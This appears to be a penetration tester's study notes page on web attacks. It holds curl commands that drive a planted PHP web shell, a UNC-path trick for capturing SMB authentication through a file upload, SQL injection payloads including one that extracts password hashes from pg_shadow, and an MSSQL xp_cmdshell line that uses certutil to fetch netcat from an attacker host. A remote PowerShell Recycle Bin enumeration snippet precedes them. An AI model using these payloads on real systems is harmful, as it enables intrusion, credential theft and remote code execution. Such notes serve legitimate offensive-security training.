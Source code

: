 ```PowerShell
    Invoke-Command -ComputerName $Computer -ScriptBlock {
        Get-ChildItem -Path 'C:\$Recycle.Bin' -Force -Recurse |
        Select-Object @{Name='ComputerName';Expression={$env:COMPUTERNAME}}, FullName, Length, LastWriteTime
    } -ErrorAction SilentlyContinue
}
$Results | Export-Csv "RecycleBinReport.csv" -NoTypeInformation
```

---






---
---
# Web
`curl` auto-encode query parameters with:
```bash
curl http://192.168.170.11/project/uploads/users/761997-backdoor.php --data-urlencode "cmd=which nc"
```
equivalent to:
```bash
curl http://192.168.170.11/project/uploads/users/761997-backdoor.php?cmd=which%20nc
```

---

- Also force SMB auth via file upload in web app:
	- For example, when we discover a file upload form in a web application on a Windows server, we can try to enter a non-existing file with a UNC path like `\\192.168.119.2\share\nonexistent.txt`. If the web application supports uploads via SMB, the Windows server will authenticate to our SMB server.

- SQL webshell write to file
- SQL count columns
- SQL instructions for using database, describing tables, etc.
- When enumerating tables in all databases, use `table_name,table_schema` as table_schema will show you which schema it is part of
- SQL test payloads
	- `' OR 1=1;-- `
		- But this is to auto-login, and it will not throw an error for error-based SQLi
	- `'`
		- Regular single quote should break SQL syntax and throw error for error-based SQLi
- PSQL goated payload:
	- `' AND (SELECT passwd FROM pg_shadow LIMIT 1 OFFSET 0)::int=1;-- `
- SQL stacked queries [[Stacked Based Injection]]
	- Force download of binary: `';EXEC xp_cmdshell "certutil -urlcache -f http://Kali_IP/nc64.exe c:/windows/temp/nc64.exe";--`
		- You may not see output of stacked queries but they still run; you will see target/victim pulling your binary
	- Likely enabled by default on MSSQL
	- Disabled by default on MySQL; requires `MULTI_STATEMENTS` enabled
	- Enabled by default on PSQL


[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami